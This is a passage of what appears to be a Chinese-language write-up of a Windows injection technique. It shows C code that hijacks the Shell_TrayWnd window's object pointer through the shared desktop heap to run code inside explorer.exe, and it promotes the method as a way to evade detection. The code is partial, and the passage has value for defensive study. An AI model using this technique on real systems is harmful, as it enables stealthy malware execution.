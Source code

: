 ### 关键代码

```c
// 1. 写入魔数到窗口
for (int i = 0; i < NUM_OF_MAGICS; i++) {
    SetWindowLong(myWnd, i * sizeof(ULONG), Magics[i]);
}

// 2. 查找共享桌面堆
while (VirtualQuery(addr, &memInfo, sizeof(memInfo))) {
    if (memInfo.Protect == PAGE_READONLY &&
        memInfo.Type == MEM_MAPPED &&
        memInfo.State == MEM_COMMIT) {

        PBYTE found = SearchMemory(
            (PBYTE)memInfo.BaseAddress,
            memInfo.RegionSize,
            (PBYTE)Magics,
            sizeof(Magics)
        );

        if (found) {
            // 找到共享桌面堆
            sharedHeap = memInfo.BaseAddress;
            break;
        }
    }
    addr += memInfo.RegionSize;
}

// 3. 劫持 Shell_TrayWnd
HWND hShellTrayWnd = FindWindow("Shell_TrayWnd", NULL);
PVOID oldCTrayObj = (PVOID)GetWindowLongPtr(hShellTrayWnd, 0);
SetWindowLongPtr(hShellTrayWnd, 0, (LONG_PTR)maliciousCTrayObj);

// 4. 触发执行
SendNotifyMessage(hShellTrayWnd, WM_PAINT, 0, 0);

// 5. 恢复
SetWindowLongPtr(hShellTrayWnd, 0, (LONG_PTR)oldCTrayObj);
```

## 技术优势

### 1. 绕过检测

- ✅ **无内存分配 API**：不使用 `VirtualAllocEx`
- ✅ **无远程写入 API**：不使用 `WriteProcessMemory`
- ✅ **无线程创建 API**：不使用 `CreateRemoteThread`
- ✅ **合法 API 调用**：仅使用 `SetWindowLong`、`SendNotifyMessage`
